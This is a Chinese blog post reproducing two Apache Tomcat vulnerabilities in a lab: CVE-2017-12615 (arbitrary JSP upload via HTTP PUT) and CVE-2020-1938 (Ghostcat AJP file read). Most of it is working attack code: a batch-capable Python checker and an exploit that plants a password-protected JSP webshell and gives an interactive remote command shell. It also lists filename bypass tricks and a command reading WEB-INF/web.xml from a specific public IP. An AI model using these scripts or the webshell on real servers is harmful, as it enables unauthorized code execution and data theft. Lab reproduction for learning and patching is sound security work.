

# Tomcat--文件上传--文件包含--(CVE-2017-12615)&&(CVE-2020-1938) - 了了青山见 - 博客园

> 原文：[`www.cnblogs.com/Pengj/p/17726297.html`](https://www.cnblogs.com/Pengj/p/17726297.html)

# Tomcat--文件上传--文件包含--(CVE-2017-12615)&&(CVE-2020-1938)

## 复现环境

采用 Vulfocus 靶场环境进行复现，搭建操作和文章参考具体搭建教程参考[vulfocus 不能同步的解决方法/vulfocus 同步失败](https://blog.csdn.net/m0_64563956/article/details/131229046)。

## CVE-2017-12615 文件上传

### 漏洞简介

当存在漏洞的 Tomcat 运行在 Windows/Linux 主机上， 且启用了 HTTP PUT 请求方法（ 例如， 将 readonly 初始化参数由默认值设置为 false） ， 攻击者将有可能可通过精心构造的攻击请求数据包向服务器上传包含任意代码的 JSP 的 webshell 文件，JSP 文件中的恶意代码将能被服务器执行， 导致服务器上的数据泄露或获取服务器权限。

### 影响范围

Apache Tomcat 7.0.0 - 7.0.79

### 漏洞复现

环境启动后，抓包将 GET 方法改为 PUT 方法，将木马文件内容放在 PUT 最后


木马文件使用哥斯拉冰蝎等 webshell 管理工具生成，将文件内容填入即可。使用工具连接

方法二(适用于 Windows 系统)

添加文件名 2.jsp%20，添加 shell 脚本

方法三(适用于 Windows 系统)

添加文件名 3.jsp::$DATA，添加 shell 脚本

### POC

使用方法

```
python3 CVE-2017-12615 POC.py -u http://xxxx -p 端口 
```

```
#CVE-2017-12615 POC
__author__ = '纸机'
import requests
import optparse
import os

parse = optparse.OptionParser(usage = 'python3 %prog [-h] [-u URL] [-p PORT] [-f FILE]')
parse.add_option('-u','--url',dest='URL',help='target url')
parse.add_option('-p','--port',dest='PORT',help='target port[default:8080]',default='8080')
parse.add_option('-f',dest='FILE',help='target list')

options,args = parse.parse_args()
#print(options)
#验证参数是否完整
if (not options.URL or not options.PORT) and not options.FILE:
        print('Usage:python3 CVE-2017-12615-POC.py [-u url] [-p port] [-f FILE]\n')
        exit('CVE-2017-12615-POC.py:error:missing a mandatory option(-u,-p).Use -h for basic and -hh for advanced help')

filename = '/hello.jsp'

#测试数据
data = 'hello'

#提交 PUT 请求
#resp = requests.post(url1,headers=headers,data=data)

#验证文件是否上传成功
#response = requests.get(url2)
#上传文件
def upload(url):
  try:
    response = requests.put(url+filename+'/',data=data)
    return 1
  except Exception as e:
    print("[-] {0} 连接失败".format(url))
    return 0
def checking(url):
  try:
    #验证文件是否上传成功
    response = requests.get(url+filename)
    #print(url+filename)
    if response.status_code == 200 and 'hello' in response.text:
      print('[+] {0} 存在 CVE-2017-12615 Tomcat 任意文件读写漏洞'.format(url))
    else:
      print('[-] {0} 不存在 CVE-2017-12615 Tomcat 任意文件读写漏洞'.format(url))
  except Exception as e:
                #print(e)
    print("[-] {0} 连接失败".format(url))
if options.FILE and os.path.exists(options.FILE):
  with open(options.FILE) as f:
    urls = f.readlines()
    #print(urls)
    for url in urls:
      url = str(url).replace('\n', '').replace('\r', '').strip()
      if upload(url) == 1:
        checking(url)
elif options.FILE and not os.path.exists(options.FILE):
  print('[-] {0} 文件不存在'.format(options.FILE))
else:
  #上传链接
  url = options.URL+':'+options.PORT
  if upload(url) == 1:
    checking(url) 
```

### EXP

使用方法

```
python3 CVE-2017-12615 EXP.py -u http://xxxx-p 端口 
```

```
#CVE-2017-12615 EXP
__author__ = '纸机'
import requests
import optparse
import time

parse = optparse.OptionParser(usage = 'python3 %prog [-h] [-u URL] [-p PORT]')
parse.add_option('-u','--url',dest='URL',help='target url')
parse.add_option('-p','--port',dest='PORT',help='target port[default:8080]',default='8080')

options,args = parse.parse_args()
#验证参数是否完整
if not options.URL or not options.PORT:
        print('Usage:python3 CVE-2017-12615-POC.py [-u url] [-p port]\n')
        exit('CVE-2017-12615-POC.py:error:missing a mandatory option(-u,-p).Use -h for basic and -hh for advanced help')

url = options.URL+':'+options.PORT
filename = '/backdoor.jsp'
payload = filename+'?pwd=023&i='

headers = {"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:93.0) Gecko/20100101 Firefox/93.0"}
#木马
data = '''<%
    if("023".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }

%>'''
#上传木马文件
def upload(url):
  print('[*] 目标地址:'+url)
  try:
    respond = requests.put(url+filename+'/',headers=headers,data = data)
    #print(respond.status_code)
    if respond.status_code == 201 or respond.status_code == 204:
      #print('[*] 目标地址:'+url)
      print('[+] 木马上传成功')
  except Exception as e:
    print('[-] 上传失败')
    return 0

#命令执行
def attack(url,cmd):
  try:
    respond = requests.get(url+payload+cmd)
    if respond.status_code == 200:
      print(str(respond.text).replace("<pre>","").replace("</pre>","").strip())

  except Exception as e:
    print('[-] 命令执行错误')
if upload(url) == 0:
        exit()
time.sleep(0.5)
print('输入执行命令(quit 退出):')
while(1):
  cmd = input('>>>')
  if(cmd == 'quit'):
    break
  attack(url,cmd) 
```

## CVE-2020-1938 文件包含

### 漏洞简介

Apache Tomcat AJP 协议（默认 8009 端口）由于存在实现缺陷导致相关参数可控，攻击者利用该漏洞可通过构造特定参数，读取服务器 webapp 目录下的任意文件。若服务器端同时存在文件上传功能，攻击者可进一步结合文件包含实现远程代码的执行

### 影响范围

Tomcat 6.*
Tomcat 7.* < 7.0.100
Tomcat 8.* < 8.5.51
Tomcat 9.* < 9.0.31

### 漏洞复现

只要使用了 tomcat 中间件，并使用了 AJP 协议(默认端口 8009)，符合漏洞版本就可以尝试复现。

*   自动化脚本
    [CNVD-2020-10487-Tomcat-Ajp-lfi](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi)

```
python2 CNVD-2020-10487-Tomcat-Ajp-lfi.py 47.98.193.176 -p 35839 -f WEB-INF/web.xml 
```

-f 参数选择要包含的文件

以上内容仅作学习记录，如有错误或瑕疵，欢迎批评指正，感谢阅读。